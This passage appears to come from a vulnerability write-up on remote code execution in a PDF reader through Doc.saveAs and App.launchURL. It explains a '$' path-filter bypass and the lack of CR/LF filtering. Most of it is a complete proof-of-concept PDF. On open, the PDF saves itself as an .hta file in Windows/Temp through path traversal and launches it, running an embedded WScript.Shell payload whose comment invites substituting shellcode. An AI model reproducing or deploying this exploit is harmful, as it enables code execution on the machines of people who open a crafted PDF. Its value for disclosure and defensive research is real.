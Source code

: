 This can be bypassed if a $ sign is used within the path. Note that if an attacker does this, they will execute the file from the current directory, which may not be ideal for exploitation.

Also note, that the App.launchURL function does not filter for space characters such as carriage return and line feeds. This can allow an attacker to spoof the file /url being launched.

## Doc.saveAs and App.launchURL Remote Code Execution Proof of Concept

```
%PDF-1.7
4 0 obj
<<
/Length 0
>>
stream
<script>
// enter your shellcode here
WshShell = new ActiveXObject("WScript.Shell");
WshShell.Run("c:/windows/system32/calc.exe", 1, false);
</script>
endstream endobj
5 0 obj
<<
/Type /Page
/Parent 2 0 R
/Contents 4 0 R
>>
 endobj
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
/OpenAction [ 5 0 R /Fit ]
  /Names <<
    /JavaScript <<
      /Names [
        (EmbeddedJS)
        <<
          /S /JavaScript
          /JS (
        this.saveAs('../../../../../../../../../../../../../../../../Windows/Temp/si.hta');
        app.launchURL('c$:/../../../../../../../../../../../../../../../../Windows/Temp/si.hta');
          )
        >>
      ]
    >>
  >>
>>
 endobj
2 0 obj
<</Type/Pages/Count 1/Kids [ 5 0 R ]>>
endobj
3 0 obj
<<>>
endobj
xref
0 6
0000000000 65535 f
0000000166 00000 n
0000000244 00000 n
0000000305 00000 n
0000000009 00000 n
0000000058 00000 n
```
